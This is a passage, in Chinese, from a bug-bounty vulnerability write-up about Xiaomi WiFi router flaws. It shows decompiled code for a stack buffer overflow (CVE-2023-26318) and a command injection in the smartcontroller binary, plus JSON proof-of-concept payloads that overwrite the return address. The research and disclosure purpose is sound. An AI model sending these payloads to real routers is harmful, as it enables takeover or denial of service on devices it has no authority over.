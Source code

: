 这样，我们就可以收到与侦听器的连接：

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/5-1711605272.png)

通过二进制system文件中的注入/usr/sbin/smartcontroller，我们现在可以验证另一个 LAN 授权后 RCE 漏洞，这次不是重复的！

**端点/api/xqsmarthome/request_smartcontroller- 堆栈缓冲区溢出 (CVE-2023-26318)**

在与上述漏洞相同的代码部分中，我们可以看到它smartcontroller也容易受到堆栈缓冲区溢出的影响。该mac参数是用户控制的，使用 直接注入到堆栈缓冲区中，这意味着不检查sprintf()复制到的字符串的长度。cmd_buffer

```
// the `mac` parameter is user controlledint32_t run_sysapi_macfilter(char* mac, int32_t enabled){    char* const yes_no;    char cmd_buffer[0x64];    memset(&cmd_buffer, 0, 0x64);    if (enable != 0)    {        yes_no = "no";    }    else    {        yes_no = "yes";    }    // `mac` is directly injected into the `cmd_buffer` (stack buffer) without length check!     sprintf(&cmd_buffer,            "/usr/sbin/sysapi macfilter set mac=%s wan=%s;/usr/sbin/sysapi macfilter commit",            mac,            a3);      return run_cmd(&cmd_buffer);}
```

然后我们可以生成一个快速 PoC 来覆盖返回地址并将程序计数器设置PC为0xdeadbeef：

第一个有效载荷

```
{    [...]    // payload is basically the same as the previous one    // mac: A * 81 + 0xdeadbeef (URL encoded)    "mac":"AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%de%ad%be%ef"    [...]}
```

第二个有效载荷

```
{    "command":"scene_start_by_crontab",    "time":"2:2",    "week":0}
```

然后我们可以在 gdb 中检查我们是否有效地控制了PC：

![小米WiFi路由器漏洞挖掘-WAN 命令注入、LAN 认证后堆栈缓冲区溢出、LAN 身份验证命令注入、WAN 堆栈缓冲区溢出](http://cn-sec.com/wp-content/uploads/2024/03/0-1711605273.png)

sprintf不幸的是，由于该漏洞来自格式化程序的使用%s，因此我们不能在有效负载中使用 NULL 字节。因此，我们不能使用 ROP 小工具在二进制文件中执行任意代码，因为我们知道二进制文件的基地址是0x00400000（以 NULL 字节开头），并且由于字节顺序，我们不能仅仅进行部分地址覆盖。

例如，漏洞利用需要 ASLR 暴力破解（这在 32 位系统上是合理的）或 ASLR 泄漏。不幸的是，二进制文件崩溃时不会重新启动，因此几乎不可能进行暴力破解，但它仍然是一种 DoS。由于我们已经发现了几个 RCE，因此我们决定不再花太多时间在这个不平凡的漏洞利用上。

端点/api/xqsmarthome/request_smartcontroller- 另一个命令注入

在向小米提交了之前的报告后，我们对 LAN 授权后研究感到满意，因为我们找到了一种在路由器上获取 root shell 的方法，并且还发现了符合其错误赏金计划的非重复 RCE。

然而，很快，对该程序的第二次通读smartcontroller发现了另一个命令注入。不幸的是，我们之前关于二进制文件的报告引起了小米的注意，他们显然在我们的报告之前不久就发现了这种注入。它再次重复，但它教会我们在匆忙报告错误之前完全完成[ 安全](https://cn-sec.com/archives/2611064.html#)审核。

feedPush第二个命令注入位于我们重命名为 的方法中0x405384。该scene_name参数是直接注入的，system()没有在run_cmd_arg函数中进行任何清理。

```
int32_t run_cmd_arg(char* cmd, char* arg){    int32_t ret;    if (is_empty_str(cmd) != 0)    {        ret = 0;    }    else    {        if (is_empty_str(arg) != 0)        {            return run_cmd(cmd);        }        int32_t len = strlen(cmd) + strlen(arg) + 5;        char* final_command = malloc(len);        memset(final_command, 0, len);        // Here, an attempt of escaping `arg` to try to avoid command injections         sprintf(final_command, "%s '%s'", cmd, arg);        // The final command is then executed with `system()`        ret = run_cmd(final_command);        free(final_command);    }    return ret;}int32_t feedPush(scene_struct* scene){    json_object* new_dupe = json_object_new_object();    json_object_object_add(new_dupe, "type", json_object_new_int(5));    json_object* new_obj = json_object_new_object();    // `scene_name` is user controlled    json_object_object_add(new_obj, "name", json_object_new_string(scene->scene_name));    [...]    json_object_object_add(new_dupe, "data", new_obj);    // user controlled data is duplicated and stringified    char* duplicate_data = strdup(json_object_to_json_string(new_dupe));    int32_t v0_6 = json_object_put(new_dupe);    if (duplicate_data == 0)    {        return v0_6;    }    // `duplicate_data` is directly injected into `system()`    run_cmd_arg("/usr/sbin/feedPush", duplicate_data);    return free(duplicate_data);}
```
